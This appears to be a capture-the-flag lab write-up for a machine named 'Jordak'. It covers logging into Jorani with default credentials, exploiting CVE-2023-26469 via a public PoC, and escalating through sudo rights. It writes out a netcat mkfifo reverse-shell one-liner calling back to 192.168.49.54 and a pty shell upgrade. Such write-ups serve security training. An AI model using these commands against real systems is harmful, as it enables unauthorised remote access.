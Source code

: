 # Jordak

So i start enumeration and find 2 open ports:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

On the webpage, we see a normal apache server webpage, and after fuzzing for a bit, we find a .git directory that redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I go on internet and look for default credentials:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I see that it is Jorani V1, so i look for exploits that i can maybe leverage and end up on this CVE:

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-26469" %}

I tried soe POCs and the one from orangecyberdefense was the best in my opinion:

{% embed url="https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/CVE_Jorani.py" %}

It gave me a pseudo term:&#x20;

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

I can catch my local.txt flag with ease but the shell is very restrictive so i go and get a reverse shell with the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 1234 >/tmp/f
```

and upgrade my low interactive shell with a full tty command:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

then i look at my sudo rights:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

and see that there are exploits to elevate our shell:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

and we adapt the command to fit to our rights and bam:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Onto the next one

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
